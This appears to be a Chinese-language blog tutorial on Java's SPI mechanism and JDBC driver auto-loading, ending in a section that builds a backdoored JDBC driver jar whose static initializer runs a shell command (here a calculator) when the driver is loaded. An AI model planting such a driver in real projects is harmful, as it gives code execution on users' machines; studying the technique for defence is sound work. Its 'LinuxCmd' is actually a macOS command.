

# 0x01 What Is SPI

Service Provider Interface：是JDK内置的一种服务提供发现机制，是Java提供的一套用来被第三方实现或扩展的接口，它可以用来启动框架扩展和替换组件。SPI是为这些被扩展的API寻找服务实现。不同厂商可以针对同一接口做出不同的实现。

> * API：**实现方**制定接口并完成对接口的实现，调用方仅仅依赖接口调用，无权选择不同实现。API被应用开发人员使用
> * SPI：**应用方**制定接口规范，提供给外部来实现，调用方在调用时则选择自己需要的外部实现。SPI被框架扩展人员使用

如`java.sql.Driver`接口



# 0x02 Best Practice

**接口：**

```java
package com.demo.spi;

public interface SpiService {
    public void say();
}
```

**实现类：**

```java
package com.demo.spi;

public class SPI_1 implements SpiService{

    @Override
    public void say() {
        System.out.println("SPI_1 at your service");
    }
}
```

```java
package com.demo.spi;

public class SPI_2 implements SpiService{

    @Override
    public void say() {
        System.out.println("SPI_2 at your service");
    }
}
```

在classpath下面创建目录`META-INF/services/`，创建一个名字为上面接口全限定名的文件


**测试：**

```java
package com.demo.spi;

import java.util.Iterator;
import java.util.ServiceLoader;

public class SpiTest {
    public static void main(String[] args) {
        ServiceLoader<SpiService> serviceLoader = ServiceLoader.load(SpiService.class);
        Iterator<SpiService> iterator = serviceLoader.iterator();
        while (iterator.hasNext()) {
            SpiService spiService = iterator.next();
            spiService.say();
        }
    }
}
```

# 0x03 SPI + JDBC

JDBC连接数据库经常是下面的写法：

1. **首先注册驱动，告诉程序使用哪种数据库**

```
Class.forName("com.mysql.cj.jdbc.Driver")
```

2. 通过反射要求JVM查找并加载指定的类
3. 加载类的过程种会执行类中的**静态代码**

```java
package com.mysql.cj.jdbc;
 
import java.sql.DriverManager;
import java.sql.SQLException;
 
public class Driver extends NonRegisteringDriver implements java.sql.Driver {
    public Driver() throws SQLException {
    }
 
    static {
        try {
           // 使用DriverManager类的registerDriver静态方法来注册驱动
            DriverManager.registerDriver(new Driver());
        } catch (SQLException var1) {
            throw new RuntimeException("Can't register driver!");
        }
    }
}
```

对于MySQL5以上版本的驱动jar包，可以省略注册驱动的过程

驱动jar包下的META-INF下的services文件夹中的java.sql.Driver文件中已经把Driver类路径记录下来了

若程序中没有注册驱动，会先读取这个文件，自动注册驱动。

这里就用到了SPI技术，**它通过在ClassPath路径下的META-INF/services文件夹查找文件**


可以看到SPI可以实现**类自动加载**

# 0x04 Deep Source

Java类加载过程中，有一步是初始化(Initialization)，初始化阶段会执行被加载类的Static Blocks。


注册驱动时执行了`Class.forName("com.mysql.cj.jdbc.Driver")`

`com.mysql.cj.jdbc.Driver`的静态代码中调用了`DriverManager`的`registerDriver`静态方法

因此JVM会去加载`DriverManager`类，进而执行`DriverManager`的静态代码，调用类中的`loadInitialDrivers`方法

```java
static {
        loadInitialDrivers();
        println("JDBC DriverManager initialized");
}

private static void loadInitialDrivers() {
        String drivers;
        try {
            drivers = AccessController.doPrivileged(new PrivilegedAction<String>() {
                public String run() {
                    return System.getProperty("jdbc.drivers");
                }
            });
        } catch (Exception ex) {
            drivers = null;
        }
        AccessController.doPrivileged(new PrivilegedAction<Void>() {
            public Void run() {
                ServiceLoader<Driver> loadedDrivers = ServiceLoader.load(Driver.class);
                Iterator<Driver> driversIterator = loadedDrivers.iterator();
                try{
                    while(driversIterator.hasNext()) {
                        driversIterator.next();
                    }
            }
        // ....
}
```

注意到`ServiceLoader.load(Driver.class)`进行了类加载

```java
public static <S> ServiceLoader<S> load(Class<S> service) {
        ClassLoader cl = Thread.currentThread().getContextClassLoader();
        return ServiceLoader.load(service, cl);
}
```


最后得到的`driversIterator`就是`LazyIterator` 

懒迭代器，顾名思义，需要用的时候才迭代

hasNext => hasNextService


`ServiceLoader<S>`类有常量属性`PREFIX = "META-INF/services/"`

`service.getName()`获取接口全类名，拼接得到SPI文件名，读取得到实现类的类名

调用其next方法 => nextService方法

```java
private S nextService() {
        if (!hasNextService())
            throw new NoSuchElementException();
        String cn = nextName;
        nextName = null;
        Class<?> c = null;
        try {
            c = Class.forName(cn, false, loader);
        //...
}
```

* `Thread.currentThread().getContextClassLoader();`获取类加载器

* 扩展的实现类通过`c = Class.forName(cn, false, loader);`获取

> `Class.forName()`使用当前的ClassLoader，我们是在`DriverManager`类里调用ServiceLoader的，所以当前类也就是`DriverManager`，它的加载器是`Bootstrap ClassLoader`。我们知道`Bootstrap ClassLoader`加载rt.jar包下的所有类，要用`Bootstrap ClassLoader`去加载用户自定义的类是违背双亲委派的，所以使用`Thread.currentThread().getContextClassLoader`去指定`AppClassLoader`

查看ClassPath下有那些JDBC Driver

```java
import java.sql.Driver;
import java.util.Iterator;
import java.util.ServiceLoader;

public class JdbcDriverList {
    public static void main(String[] args) {
        ServiceLoader<Driver> serviceLoader = ServiceLoader.load(Driver.class, ClassLoader.getSystemClassLoader( ));

        for (Iterator<Driver> iterator = serviceLoader.iterator(); iterator.hasNext();) {
            Driver driver = iterator.next();
            System.out.println(driver.getClass().getPackage() + " ------> " + driver.getClass().getName());
        }
    }
}
```


# 0x05 JDBC Driver后门

现在我们尝试自己编写一个后门驱动jar包，让用户引入后门jar包，在建立JDBC连接时，触发执行命令

```
jar cvf ShellDriver.jar ShellDriver.class
```

jar中的META-INF下需要有services文件夹

services文件夹下为java.sql.Driver，内容为`com.mysql.fake.jdbc.ShellDriver`

这是为了让SPI找到我们要加载的类ShellDriver

```java
package com.mysql.fake.jdbc;

import java.sql.*;
import java.util.Properties;
import java.util.logging.Logger;

public class ShellDriver implements java.sql.Driver {
    protected static final String WindowsCmd = "calc";

    protected static final String LinuxCmd = "open -a calculator";

    protected static  String shell;

    protected static  String args;

    protected static  String cmd;

    static {
        if( System.getProperty("os.name").toLowerCase().contains("windows") ){
            shell = "cmd.exe";
            args = "/c";
            cmd = WindowsCmd;
        } else {
            shell = "/bin/sh";
            args = "-c";
            cmd = LinuxCmd;
        }
        try{
            Runtime.getRuntime().exec(new String[] {shell, args, cmd});
        } catch(Exception ignored) {
        }
    }

    @Override
    public Connection connect(String url, Properties info) throws SQLException {
        return null;
    }

    @Override
    public boolean acceptsURL(String url) throws SQLException {
        return false;
    }

    @Override
    public DriverPropertyInfo[] getPropertyInfo(String url, Properties info) throws SQLException {
        return new DriverPropertyInfo[0];
    }

    @Override
    public int getMajorVersion() {
        return 0;
    }

    @Override
    public int getMinorVersion() {
        return 0;
    }

    @Override
    public boolean jdbcCompliant() {
        return false;
    }

    @Override
    public Logger getParentLogger() throws SQLFeatureNotSupportedException {
        return null;
    }
}
```


执行JDBC连接数据库操作，成功弹出计算器

```java
import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.ResultSet;
import java.sql.Statement;

public class Jdbc_Demo {
    public static void main(String[] args) throws Exception {
        // 注册驱动
        Class.forName("com.mysql.cj.jdbc.Driver");
        // 获取数据库连接对象
        Connection con = DriverManager.getConnection("jdbc:mysql://localhost:3308/test","root", "123456");
        //  定义sql语句
        String sql = "select * from flag";
        // 获取执行sql的对象Statement
        Statement stmt = con.createStatement();
        // 执行sql
        ResultSet res = stmt.executeQuery(sql);
        // 处理对象
        while(res.next()) {
            System.out.println(res.getString("flag"));
        }
        // 释放资源
        res.close();
        stmt.close();
        con.close();
    }
}
```

> **注意：Class.forName(className, initia, currentLoader)**  
>
> 第二个参数指定是否初始化，nextService中第二个参数为false。因此不会执行待加载类的静态代码。实际上是后面对加载的Class进行newInstance时才执行了静态代码

